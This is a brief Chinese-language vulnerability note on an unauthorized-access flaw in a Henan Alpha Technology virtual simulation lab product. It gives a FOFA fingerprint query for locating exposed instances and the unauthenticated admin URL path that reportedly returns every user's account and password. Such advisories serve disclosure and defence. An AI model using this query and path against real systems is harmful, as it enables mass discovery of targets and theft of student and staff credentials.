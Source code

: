# 阿尔法科技 虚拟仿真实验室 未授权访问漏洞

## 漏洞描述

阿尔法科技 虚拟仿真实验室 存在未授权访问漏洞，通过访问构造的Url可以获取敏感信息

## 漏洞影响

```
虚拟仿真实验室
```

## FOFA

```
body="河南阿尔法科技有限公司"
```

## 漏洞复现

未授权的Url为

```plain
/admin/student/studentlist.html?page=1
```

![](./images/202202101929331.png)



成功获取所有用户的账号密码信息

## 参考文章

http://www.0dayhack.net/index.php/1702/